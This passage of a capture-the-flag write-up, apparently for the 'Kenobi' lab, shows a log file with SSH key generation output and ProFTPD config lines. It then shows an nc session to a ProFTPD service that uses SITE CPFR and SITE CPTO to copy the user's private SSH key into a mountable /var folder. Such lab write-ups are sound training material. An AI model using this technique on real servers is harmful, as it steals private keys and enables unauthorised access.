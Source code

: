 Listing share folders:
![2022-12-16_19-24](https://user-images.githubusercontent.com/87711310/208113526-87814f35-23aa-413f-aefb-7c4ae479fdd7.png)

As you see above the picture, we have a file called log.txt. You can see the contents of the file below.
```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kenobi/.ssh/id_rsa): 
Created directory '/home/kenobi/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|           ..    |
|        . o. .   |
|       ..=o +.   |
|      . So.o++o. |
|  o ...+oo.Bo*o  |
| o o ..o.o+.@oo  |
|  . . . E .O+= . |
|     . .   oBo.  |
+----[SHA256]-----+

# This is a basic ProFTPD configuration file (rename it to 
# 'proftpd.conf' for actual use.  It establishes a single server
# and a single anonymous login.  It assumes that you have a user/group
# "nobody" and "ftp" for normal operation and anon.

ServerName			"ProFTPD Default Installation"
ServerType			standalone
DefaultServer			on

# Port 21 is the standard FTP port.
Port				21
```

We can see that the user-generated id_rsa file exists in Kenobi’s home directory. Let’s put the pieces together. We have vulnerable ProFTPd service, /var folder that we can mount and id_rsa file we can reach. If we copy rsa file to under /var folder, when we mount the folder we able to read rsa file and get access to the target. Firts, we need to copy rsa file to /var directory. We can do it via nc connection by connecting 21 port.

```
nc 10.10.5.29 21
```
```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
